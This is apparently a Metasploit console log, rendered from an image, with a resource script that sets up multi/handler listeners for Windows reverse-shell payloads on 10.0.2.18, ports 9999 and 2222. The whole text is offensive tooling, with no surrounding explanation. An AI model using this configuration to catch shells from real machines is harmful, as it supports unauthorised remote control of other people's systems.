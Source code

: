 ```bash
  +---------------------------+---------------------------+
  |      __________________   |                           |
  |  ==c(______(o(______(_()  | |""""""""""""|======[***  |
  |             )=\           | |  EXPLOIT   \            |
  |            // \\          | |_____________\_______    |
  |           //   \\         | |==[msf >]============\   |
  |          //     \\        | |______________________\  |
  |         // RECON \\       | \(@)(@)(@)(@)(@)(@)(@)/   |
  |        //         \\      |  *********************    |
  +---------------------------+---------------------------+
  |      o O o                |        \'\/\/\/'/         |
  |              o O          |         )======(          |
  |                 o         |       .'  LOOT  '.        |
  | |^^^^^^^^^^^^^^|l___      |      /    _||__   \       |
  | |    PAYLOAD     |""\___, |     /    (_||_     \      |
  | |________________|__|)__| |    |     __||_)     |     |
  | |(@)(@)"""**|(@)(@)**|(@) |    "       ||       "     |
  |  = = = = = = = = = = = =  |     '--------------'      |
  +---------------------------+---------------------------+


       =[ metasploit v6.3.49-dev                          ]
+ -- --=[ 2383 exploits - 1235 auxiliary - 417 post       ]
+ -- --=[ 1391 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

[*] Processing config.rc for ERB directives.
resource (config.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (config.rc)> set PAYLOAD windows/x64/shell/reverse_tcp
PAYLOAD => windows/x64/shell/reverse_tcp
resource (config.rc)> set LHOST 10.0.2.18
LHOST => 10.0.2.18
resource (config.rc)> set LPORT 9999
LPORT => 9999
resource (config.rc)> set ExitOnSession false
ExitOnSession => false
resource (config.rc)> set EXITFUNC thread
EXITFUNC => thread
resource (config.rc)> exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
resource (config.rc)> set PAYLOAD windows/shell/reverse_tcp
[*] Started reverse TCP handler on 10.0.2.18:9999
PAYLOAD => windows/shell/reverse_tcp
resource (config.rc)> set LPORT 2222
LPORT => 2222
resource (config.rc)> exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.0.2.18:2222
msf6 exploit(multi/handler) >
```

